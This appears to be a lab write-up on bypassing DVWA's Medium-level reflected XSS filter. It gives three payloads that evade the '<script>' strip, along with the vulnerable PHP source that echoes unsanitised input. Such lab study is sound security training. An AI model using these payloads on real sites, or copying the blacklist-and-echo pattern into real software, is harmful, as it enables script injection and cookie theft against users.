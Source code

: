 # XSS

## DVWA Security Medium

DVWA removes "< script >" from input

```html
<sc<script>ript>alert(document.cookie)</script>
<img src="#" onmouseover="alert(document.cookie)" />
<iframe src="javascript:alert(0)"></iframe>
```

# Source

```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello {$name}</pre>";
}

?>
```
